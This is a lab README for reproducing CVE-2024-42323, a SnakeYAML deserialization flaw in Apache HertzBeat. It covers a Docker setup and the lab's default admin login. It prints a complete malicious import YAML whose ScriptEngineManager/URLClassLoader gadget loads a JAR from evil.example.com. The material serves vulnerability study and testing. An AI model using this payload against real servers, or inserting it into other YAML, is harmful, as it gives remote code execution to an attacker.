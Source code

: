 # Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First, you need to compile the yaml-payload project available at <https://github.com/fei9747/yaml-payload/>, and host the generated JAR file on a web server, for example, `http://evil.example.com:4444/yaml-payload.jar`.

Log into the dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files:

![Locate the import button](1.png)

We can craft a malicious YAML file that contains the following content, which attempts to load your malicious JAR file when deserialized:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote class loading:

![Import the malicious YAML file](2.png)

If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:

![Verify code execution](3.png)

